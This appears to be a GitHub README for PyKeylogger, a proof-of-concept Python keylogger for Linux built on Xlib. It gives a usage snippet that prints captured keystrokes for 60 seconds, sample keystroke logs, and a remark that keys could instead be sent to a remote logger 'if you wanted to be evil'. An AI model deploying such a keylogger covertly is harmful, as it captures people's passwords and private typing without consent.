 PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print "%.2f   %r   %r" % (t, keys, modifiers)

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:


    1314238675.42   ['o']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.51   ['m']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.57   []   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.64   []   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.65   ['g']   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.74   []   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
